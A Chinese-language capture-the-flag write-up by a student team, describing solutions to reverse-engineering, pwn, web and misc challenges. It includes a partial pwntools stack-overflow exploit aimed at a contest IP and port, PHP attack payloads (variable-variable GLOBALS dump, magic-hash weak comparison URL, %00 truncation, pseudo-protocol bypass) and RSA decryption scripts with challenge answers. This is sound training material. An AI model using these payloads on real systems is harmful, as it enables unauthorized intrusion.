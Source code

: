 ###  班级对抗赛
@(比赛writeup)
### 队伍名称、队伍成员
  队伍名称：163facker
  队伍成员:   徐若添、屈娇、陈诗梦
### 解决题目
解决题目：
RE：送分题、pwnfun、爆破
misc: 签到、热身upupup、计算题哦、芬奇的日记、RRRSA
web: web1、送分代码审计、web2、Amazing magic、Love China、加0题

### 解题思路
#### Re
1.送分题
下载下来，扔到od,因为是送分题，也不想太复杂，搜索一下ascii，看到一串base64 
![Alt text](./1511573767634.png)
![Alt text](./1511573784567.png)
flag:D0g3{Re_1s_v3ry_ea5y!}

2.pwnfun
根据题目所说一个很简单的栈溢出，开始以为是写shellcode之类的利用，后来发现出题人心软了
直接用ida反编译查看如下：
![Alt text](./1511596128138.png)

溢出点很明显，变量v4距离rbp为0x88个字节，却读入了0x100个字节
emmmm
开始的想法是写shell code利用，因为泄露栈地址很麻烦，得不到shellcode的地址，所以不行，很头大
后来，看ida发现出题人心软了，给了一个函数good_game![Alt text](./1511596203993.png)

所以就很简单了，栈溢出控制返回地址，进而控制rip跳转到good_game函数执行即可
exp如下
```
from pwn import *

HOST = '222.18.158.244'
PORT = 2333

payload = 'a' * over_len
payload += p64(buf_addre)

io.recvuntil('Input your message:\n')
io.sendline(payload)
io.interactive()
```
![Alt text](./1511595936249.png)

3.爆破
运行文件，Admin已经给出了，应该是获取文本框内容然后比对即可
![Alt text](./1511599774085.png)

题目给出爆破的提示，老老实实爆破
找到关键的流程处
![Alt text](./1511599806182.png)

往下执行，将全部跳转改到指向成功的函数那即可得到flag
D0g3{Winner_Winner_Chicken_Dinner!}
#### web
1.web1
进去直接源码出来，![Alt text](./1511574517021.png)
看到最后一行，eval("var_dump($$args)")  可变变量，传一个全局数组变量。args=GLOBALS
![Alt text](./1511574660400.png)

2.送分代码审计
看源码啥也没有，考虑源码泄露。而且源码里面base64也提示了![Alt text](./1511582616740.png)

![Alt text](./1511581713641.png)
down下来，看到源码的意思是`$flag1 && $flag2 && $flag3` 都为真，就可以出flag。那本地调试一下。构造出payload: 
`http://45.32.90.22:2501/index.php?name=xiaohong&&sex=nv&&key=240610708&&pen=240610708&&apple=QNKCDZO`
这里源码中考察了php弱类型，`==`和`===`的区别
这里![Alt text](./1511582072895.png)
因为出现了比较，而在0e中是读取的科学计数法，构造出来的key的md5也是0e就ok，故构造$key = "240610708";
下面![Alt text](./1511582158923.png) 同理构造。
payload如上，![Alt text](./1511582190778.png)

这里给一个学习php弱类型的网站：https://www.cnblogs.com/Mrsm1th/p/6745532.html

3.web2
这里看到源码，strlen可以通过%00来截断绕过，id==0 随便测试传个值，b需要绕过eregi 用00截断 data通过使用伪协议绕过stripos
payload:
![Alt text](./1511585991103.png)

4.Amazing magic
post随便传个值后在页源码中发现一句提示

![Alt text](./1511595176074.png)
接着post key=source
![Alt text](./1511595192422.png)

得到源码，源码要让number==14598366 但是字符并不能相同，所以这里想到通过转换进制 使用两个进制进行比较  把14598366转换为16进制得到0xdec0de
所以key=0xdec0de
![Alt text](./1511595220905.png)


5.Love China
这个题要点100万次，可能不行。这里本来是想会不会有什么脚本可以跑。但是，看了一下F12。改js啊，修改clicks的值，抓包，传一个大于1000000的值，就出来了。
![Alt text](./1511596780962.png)
![Alt text](./1511596794514.png)

6.加0题
![Alt text](./1511599911086.png)

页面给出robo.txt提示
访问
![Alt text](./1511599921092.png)

url编码，传输过去后会被默认解码一次，所以将jia0编码两次，再传入就可以得到flag
![Alt text](./1511599939423.png)


#### Misc
1.热身upupup
音频隐写，没有密码提示。直接扔Au
![Alt text](./1511580044861.png)
摩斯电码：..- ..- ..- - ..- - ..- ..- -
![Alt text](./1511580077789.png)
D0g3{UUUTUTUUT}
2.计算题哦
![Alt text](./1511589955392.png)
长度被限制，直接改一下length
出现的弹窗，base64解码
![Alt text](./1511590029909.png)
3.芬奇的日记
 下载下来是一张png图片，先放到kali看看能不能分离 
 ![Alt text](./1511600051988.png)

 发现有两张png图片，那么就dd分离
 ![Alt text](./1511600060787.png)
 得到了一张二维码的图片
 ![Alt text](./1511600071957.png)
用stegsolve打开调制Gray bits得到二维码
![Alt text](./1511600087823.png)
 然后扫描得到下面的一串编码
 ![Alt text](./1511600101750.png)
 
 Base64解一下得flag
 ![Alt text](./1511600244342.png)

4.RRRSA
首先还是要学习一下RSA算法是什么，下面贴一下学习的地方。
http://bobao.360.cn/learning/detail/3058.html
在这里主要思路就是先通过n计算出p,q，通过p,q再计算出d，之后就可以求出m。
就在我上面贴的网址里面有可以求出p,q的值的网址。
![Alt text](./1511600804371.png)
解出来p,q的值。
![Alt text](./1511600822607.png)
写一个py脚本跑一下d的值。

```
def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)
def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m

p = 17
q = 40945572069996101
e = 65537
d=modinv(e,(p-1)*(q-1))

print(d)
```
跑出来d的值。
![Alt text](./1511600914169.png)
继续写一个脚本，出m的值。这里因为学艺不精，只能一直修改c的一行一行的值来解密。

```
c=185467894761485820
d=232174645015238273
n=696074725189933717
m=pow(c,d,n)
print hex(m)[2:len(hex(m))-1].decode('hex')
```
这里c的值，要一行一行的换![Alt text](./1511601045222.png)
![Alt text](./1511601101246.png)
这里就贴一部分了，最后解出来，就是这样。
![Alt text](./1511601085398.png)
